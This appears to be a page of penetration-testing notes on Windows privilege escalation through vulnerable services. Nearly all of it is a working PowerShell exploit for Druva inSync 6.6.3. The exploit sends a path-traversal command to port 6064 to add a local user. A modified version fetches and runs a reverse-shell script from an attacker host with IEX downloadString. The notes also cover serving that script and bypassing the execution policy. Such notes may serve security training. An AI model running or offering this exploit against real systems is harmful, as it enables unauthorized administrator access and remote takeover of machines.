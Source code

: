 ### Vulnerable Services

**Enumerating Installed Programs**
````
> wmic product get name
````

#### Example: Druva inSync 6.6.3
```powershell
# Step 1: Verify service is running
netstat -ano | findstr 6064
get-process -Id <PID>
get-service | ? {$_.DisplayName -like 'Druva*'}

# Step 2: Exploit using PowerShell PoC
$ErrorActionPreference = "Stop"
$cmd = "net user pwnd P@ssw0rd! /add"
$s = New-Object System.Net.Sockets.Socket([System.Net.Sockets.AddressFamily]::InterNetwork,[System.Net.Sockets.SocketType]::Stream,[System.Net.Sockets.ProtocolType]::Tcp)
$s.Connect("127.0.0.1", 6064)
$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);
$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)

# Step 3: Verify user creation
net localgroup administrators
```
**Modifying PowerShell PoC**
````
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://<Our_IP>:8080/shell.ps1')"

Rename the file Invoke-PowershellTCP.ps1 to shell.ps1 and append "Invoke-PowerShellTcp -Reverse -IPAddress <Our_IP> -Port <Our_Port>"
````
**Exploitation**
````
# Starting a Python Web Server
$ python3 -m http.server 8080

# Modifying the PowerShell execution policy 
> Set-ExecutionPolicy Bypass -Scope Process

# Execute POC
> .\poc.ps1
````

---
